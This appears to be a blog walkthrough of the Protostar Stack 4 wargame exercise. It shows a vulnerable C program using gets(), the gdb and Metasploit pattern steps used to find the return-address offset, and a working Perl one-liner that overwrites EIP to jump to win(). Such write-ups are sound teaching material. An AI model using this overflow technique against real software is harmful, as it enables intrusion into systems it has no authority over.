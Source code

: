 ```yaml
---
title: "Exploit Exercises - Protostar Stack 4"
date: "2011-12-16T05:52:00-05:00"
comments: true
highlight: "true"
categories:
 - wargames
 - Protostar
 - linux
 - exploit-exercises
 - hacking
aliases:
 - "/2011/12/exploit-exercises-protostar-stack-4.html"
---
```


With [this](http://exploit-exercises.com/protostar/stack4) challenge, I think things really start to get fun, and more real-world.  

<!-- more -->

We are provided with the following C program:

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
 printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
 char buffer[64];

 gets(buffer);
}
```

This C app will simply read a value from user input, and store it in "buffer".  We then need to get it to somehow execute "win()". 

To get started, just like in the last challenge, I used objdump to find out where "win()" was located:

```
user@protostar:/opt/protostar/bin$ objdump -d stack4
...
080483f4 <win>:
...
```

Because we're going to need to modify the EIP of this program, we need to find where it is.  You may want to think that it would be immediately after the 64 bytes of the "buffer" array, however this is often times extra space due to null terminators, return values, and more.  So I use some tools from the [Metasploit Framework](http://metasploit.com) on another machine to find the EIP. 

First, I generate a unique string, using the pattern_create tool:

```
mandreko@li225-134:/opt/framework-4.0.0/msf3/tools$ ./pattern_create.rb 128
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae
```

Then I execute the vulnerable program in gdb, feeding it the unique string to the input:

```
user@protostar:/opt/protostar/bin$ gdb --quiet ./stack4
Reading symbols from /opt/protostar/bin/stack4...done.
(gdb) run
Starting program: /opt/protostar/bin/stack4
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae

Program received signal SIGSEGV, Segmentation fault.
0x63413563 in ?? ()
```

Now I know that the EIP contains the value 0x63413563.  I can go back to the Metasploit tools and run the pattern_offset tool to tell me the offset of the EIP:

```
mandreko@li225-134:/opt/framework-4.0.0/msf3/tools$ ./pattern_offset.rb 0x63413563
76
```

This tells me that unlike the 64 characters I would have thought, it's actually offset by 76 characters.  So now we just have to get the address of "win()" (0x080483f4) into the EIP at 76 bytes offset:

```
user@protostar:/opt/protostar/bin$ perl -e 'print "A"x76 . "\xf4\x83\x04\x08"' | ./stack4
code flow successfully changed
Segmentation fault
```

There you have it.  We get the execution from "win()".
